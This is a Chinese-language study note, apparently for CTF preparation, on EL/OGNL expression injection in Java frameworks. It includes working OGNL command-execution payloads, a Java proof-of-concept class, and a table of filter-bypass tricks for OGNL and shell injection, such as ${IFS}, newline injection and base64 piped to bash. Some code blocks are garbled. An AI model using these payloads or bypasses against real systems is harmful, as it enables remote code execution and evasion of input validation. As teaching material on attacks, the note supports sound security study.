

EL表达式注入
本质¶
- 表达式语言（EL）的设计初衷：动态访问和操作对象属性/方法，解耦视图与业务逻辑。比如在JSP页面中用 ${user.name} 替代 <%=user.getName()%>
- 表达式注入 vs SQL注入：本质相同——代码与数据未分离。用户输入的数据被框架当作表达式代码解析执行了。SQL注入拼接到SQL语句，表达式注入拼接到EL表达式。
- Java常见EL类型：
- 触发方式：当框架调用 getValue()（OGNL/SpEL）、parseExpression()、或解析 ${}、%{} 等占位符时触发
表达式语言的定界符¶
- 解析标记
- 类比理解：
- 不同框架中的变体
| 框架/技术 | 表达式定界符 | 示例 |
|---|---|---|
| JSP EL | ${}、#{} |
${user.name} |
| Struts2 OGNL | ${}、%{} |
%{@Runtime@exec('calc')} |
| Spring EL | ${}、#{} |
${user.name} |
| Thymeleaf | ${}、*{} |
${user.name} |
| FreeMarker | ${} |
${user.name} |
注意：${} 和 %{} 的区别
- 在反序列化中的特殊情况
-
反序列化漏洞（CB链）中，表达式通常不需要
${}``java // CB链中，直接传表达式字符串 BeanComparator comparator = new BeanComparator( "@java.lang.Runtime@getRuntime().exec('calc')" // 没有${} );// 因为框架内部直接调用 Ognl.getValue() // ${} 只是Web框架用来标记的，底层API不需要 ``` 2. 为什么会有这个差异？
Web场景（Struts2）： HTTP参数 → %{...} 或 ${...} → 框架去掉定界符 → Ognl.getValue() 反序列化场景（CB链）： 序列化数据 → property字段直接是表达式 → PropertyUtils.getProperty() → 内部调用Ognl.getValue()OGNL注入详解¶
OGNL是什么¶
- OGNL = Object-Graph Navigation Language（对象图导航语言） 本质：用字符串表达式来读写Java对象的属性、调用方法。
- 示例：
- 为什么需要它 动态性：表达式可以在运行时才确定（从配置文件、网络请求读取） 解耦：框架（如Struts2）不需要硬编码调用哪些方法 灵活：可以访问集合、静态方法、甚至创建对象
OGNL核心语法¶
| 符号 | 名称 | 作用 | 反序列化中的用途 |
|---|---|---|---|
| . | 点号 | 访问属性/调用方法 | getRuntime().exec() |
| [] | 中括号 | 访问数组/Map/指定属性 | request["param"] |
| # | 井号 | 引用上下文变量 | #a=Runtime.getRuntime() |
| @ | at符号 | 调用静态方法 | @java.lang.Runtime@getRuntime() |
- 点号
.- 最常用 - 中括号
[]- 替代点号或访问集合 - 井号
#- 操作上下文变量（重要）// 创建变量 ${#a=1, #b=2, #a+#b} // 返回3 // 存储Runtime对象（避免重复调用静态方法） ${#rt=@java.lang.Runtime@getRuntime(), #rt.exec('calc')} // 访问OGNL上下文中的特殊变量 ${#this} // 当前对象 ${#root} // 根对象 ${#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse']} // Struts2中的response // 在CTF中常用：获取Web目录 ${#request.getSession().getServletContext().getRealPath("/")} - at符号
@- 静态调用
OGNL在Java中的使用方式¶
OGNL不是自动执行的，需要显式调用OGNL API：
import ognl.Ognl;
import ognl.OgnlException;
public class OgnlTest {
public static void main(String[] args) throws OgnlException {
// 1. 解析表达式字符串 -> 抽象语法树
Object expression = Ognl.parseExpression("@java.lang.Runtime@getRuntime().exec('calc')");
// 2. 在上下文中执行表达式
// 参数1: 表达式AST
// 参数2: 上下文（可以放自定义变量）
// 参数3: 根对象（表达式中的root）
Ognl.getValue(expression, null, null);
}
}

在反序列化链中的触发（CB链核心）¶
- BeanComparator的compare方法
// Apache Commons BeanUtils 1.8.3 public class BeanComparator<T> implements Comparator<T>, Serializable { private String property; // ← 这就是表达式注入点！ public int compare(T o1, T o2) { // 关键：调用PropertyUtils.getProperty Object value1 = PropertyUtils.getProperty(o1, this.property); Object value2 = PropertyUtils.getProperty(o2, this.property); return ((Comparable) value1).compareTo(value2); } } - PropertyUtils如何支持OGNL PropertyUtils.getProperty 本身不直接支持OGNL。 真正的OGNL触发发生在某些特定框架（如Struts2）重写了这个方法，或者在 BeanComparator 配合其他库（如 commons-beanutils + ognl 同时存在）时。 更准确的理解： 在纯 commons-beanutils 中，property 只能是普通JavaBean属性名（如 "name"、"age"） 但当 commons-beanutils 和 ognl 库同时存在，且某些框架扩展了 PropertyUtils，才能支持OGNL表达式
- 实战中的CB链构造（ysoserial版本）
OGNL执行命令的完整POC¶
- 基础命令执行 ```java String expression = "@java.lang.Runtime@getRuntime().exec('calc')"; Object ast = Ognl.parseExpression(expression); Ognl.getValue(ast, null, null); ````
- 创建变量 + 多步执行
- 处理有返回值的命令（读取命令结果）
// 读取whoami的输出 String expression = "#rt=@java.lang.Runtime@getRuntime(), " + "#proc=#rt.exec('whoami'), " + "#is=#proc.getInputStream(), " + "#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)), " + "#br.readLine()"; Object result = Ognl.getValue( Ognl.parseExpression(expression), null, null ); System.out.println(result); // 打印用户名 - 结合TemplatesImpl（无文件落地）
常见的黑名单绕过¶
| 黑名单 | 绕过方式 | 示例 |
|---|---|---|
| 过滤 Runtime | 用 ProcessBuilder | new java.lang.ProcessBuilder('calc').start() |
| 过滤 exec | 反射调用 | @java.lang.Runtime@getRuntime().getClass().getMethod('exec', ...).invoke(...) |
| 过滤 . | 用 [] |
@java.lang.Runtime@getRuntime()["exec"]('calc') |
| 过滤 @ | 用 # 加全限定名 |
OGNL很难绕过，因为静态调用必须用 @ |
过滤 ' |
Unicode编码 | \u0027calc\u0027 |
过滤 ( |
Unicode编码 | \u0028 |
| 过滤关键字 | 字符串拼接 | 'ex'+'ec' |
| 过滤空格 | ${IFS} / %09 / {cat,flag} |
cat${IFS}/flag |
过滤 &、\|、; |
换行符 %0a / 回车符 %0d |
127.0.0.1%0acat /flag |
过滤 cat |
其他读取命令 | tac、more、less、head、tail、nl |
过滤 bash / sh |
$0 / 其他shell |
$0 -c "cat /flag" |
过滤 / |
环境变量截取 | cat ${PATH:0:1}flag |
| 过滤数字 | 环境变量长度 | ${#PATH} 获取数字 |
| 过滤字母 | base64编码 | echo 'Y2F0IC9mbGFn' \| base64 -d \| bash |
过滤 $ |
反引号执行 | `cat /flag` |
绕过示例：
// 原始：@java.lang.Runtime@getRuntime().exec('calc')
// 绕过点号过滤
${@java.lang.Runtime@getRuntime()["exec"]('calc')}
// 绕过exec关键词
${@java.lang.Runtime@getRuntime()["ex"+"ec"]('calc')}
// 绕过引号过滤（Unicode）
${@java.lang.Runtime@getRuntime().exec(\u0027calc\u0027)}
与其他知识点的关联¶
| 特性 | OGNL | SpEL |
|---|---|---|
| 静态方法调用 | @class@method() |
T(class).method() |
| 创建新对象 | new java.io.File('test') |
new java.io.File('test') |
| 访问数组 | array[0] |
array[0] |
| 上下文变量 | #var |
#var |
| 主要用途 | Struts2, MyBatis | Spring Framework |
| 反序列化链 | CB链（BeanComparator） | Spring4Shell等 |